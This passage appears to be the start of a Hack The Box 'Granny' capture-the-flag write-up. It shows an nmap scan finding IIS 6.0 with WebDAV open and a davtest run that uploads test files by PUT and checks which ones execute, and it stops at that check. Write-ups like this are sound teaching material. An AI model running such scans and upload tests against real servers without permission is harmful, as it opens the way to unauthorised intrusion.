 ----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/granny]# nmap -Pn -n -sCV 10.10.10.15 --open                                                                        (master)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods:
    |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan:
    |   Server Type: Microsoft-IIS/6.0
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |   WebDAV type: Unknown
    |   Server Date: Tue, 02 Mar 2021 14:46:58 GMT
    |_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


2. We instantly see that it's IIS 6.0 and webdab seems to be open. Run davtest to find out more.

  [root:/git/htb/granny]# davtest -url http://10.10.10.15                                                                           (master✱)
    ********************************************************
     Testing DAV connection
    OPEN		SUCCEED:		http://10.10.10.15
    ********************************************************
    NOTE	Random string for this session: YDySC7gsiCC
    ********************************************************
     Creating directory
    MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_YDySC7gsiCC
    ********************************************************
     Sending test files
    PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.php
    PUT	cgi	FAIL
    PUT	asp	FAIL
    PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.txt
    PUT	shtml	FAIL
    PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.pl
    PUT	aspx	FAIL
    PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.jsp
    PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.html
    PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.jhtml
    PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.cfm
    ********************************************************
     Checking for test file execution
    EXEC	php	FAIL
    EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.txt
    EXEC	pl	FAIL